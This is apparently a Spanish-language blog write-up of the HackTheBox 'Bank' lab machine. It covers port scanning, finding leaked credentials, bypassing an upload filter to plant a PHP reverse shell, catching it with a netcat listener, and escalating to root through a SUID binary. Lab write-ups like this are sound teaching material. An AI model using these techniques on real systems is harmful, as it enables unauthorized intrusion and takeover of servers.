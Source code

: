 ```yaml
---
layout      : post
title       : "Bank - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/Bank-HackTheBox/Bank.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


💲En esta ocasión explotaremos una máquina Easy de HackTheBox muy pero muy sencilla, tendremos que obtener unas credenciales de acceso al servidor web y después subir una reverse shell para poder conseguir acceso al sistema. La escalada de privilegios es un auténtico regalito🎁💲!!

![](/assets/images/HTB/Bank-HackTheBox/rating-bank.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

# Reconocimiento de Puertos

```nmap
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
53/tcp open  domain  syn-ack
80/tcp open  http    syn-ack
```

Escaneamos servicios y las versiones de los mismos.

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-title: HTB Bank - Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Aquí tenemos un servidor web en el puerto 80 (http), el puerto 53 (DNS) y el puerto 22 (ssh).

Añadimos al archivo host la ip y el dominio bank.htb

Procedo a enumerar el servidor web

# Enumeración Web

Encontramos un login para acceder pero no tenemos credenciales, asique me pongo a enumerar rutas en el servidor para ver que tenemos.

![](/assets/images/HTB/Bank-HackTheBox/web1.png)

Para enumerar las rutas uso gobuster

![](/assets/images/HTB/Bank-HackTheBox/gobuster.png)

Encuentro la ruta balance-transfer y dentro de ella una lista bastante grande con archivos.

![](/assets/images/HTB/Bank-HackTheBox/web2.png)

Abro uno de ellos aleatoriamente

![](/assets/images/HTB/Bank-HackTheBox/data1.png)

Parece que la data está encriptada, pero tras probar y probar y no consigo desencriptarla.

Sigo buscando en la lista de archivos y me fijo en el tamaño de cada uno, suelen rondar entre los 582 y 585 el tamaño de los archivos, asique buscando encuentro uno de ellos que tiene de tamaño 257.

![](/assets/images/HTB/Bank-HackTheBox/web3.png)

Al abrirlo encuentro unas credenciales en texto plano.

![](/assets/images/HTB/Bank-HackTheBox/data2.png)

Usaré las credenciales para iniciar sesión en el panel web.

Una vez dentro encontramos un panel con todas las transacciones y datos bancarios.

![](/assets/images/HTB/Bank-HackTheBox/web4.png)

Navegando por la web me dirijo a Support y encuentro una formulario donde puedo subir un archivo.

![](/assets/images/HTB/Bank-HackTheBox/web5.png)

Tras ver eso creo un archivo con una reverse shell en php de la siguiente fuente:

[https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Edito la ip y el puerto.

Una vez lista la reverse shell la subo al servidor.

![](/assets/images/HTB/Bank-HackTheBox/errorweb.png)

Pero me arroja ese error, solo se pueden subir imágenes al servidor.

Tras probar a editar el content-type en Burpsuite para bypassear la restricción no tengo éxito asique procedo a analizar el código del support.php donde encuentro el siguiente comentario:

> "[DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]" 

Si cambiamos la extensión de .php a .htb podemos ejecutar los archivos php.

Subimos el archivo y listo:

![](/assets/images/HTB/Bank-HackTheBox/web6.png)

Ahora nos abrimos un listener netcat en el puerto configurado en la rev shell

`nc -lnvp 1234`

Ejecutamos el archivo desde el panel web y tenemos la conexión inversa.

```shell
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.29] 48610
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 00:27:22 up  1:08,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```

Una vez dentro ya podemos leer el user.txt

Ahora toca escalar privilegios


# Escalada de Privilegios 

Busco binarios SUID de propietarios root con el comando find 

```bash
www-data@bank:/home/chris$ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
Tenemos el binario emergency

Asique pruebo a ejecutarlo para ver que sucede o que he de hacer...

```bash
www-data@bank:/home/chris$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami 
root
```

Lo ejecuto y para mi sorpresa ya soy root!!!

![](/assets/images/HTB/Bank-HackTheBox/dollar.gif)
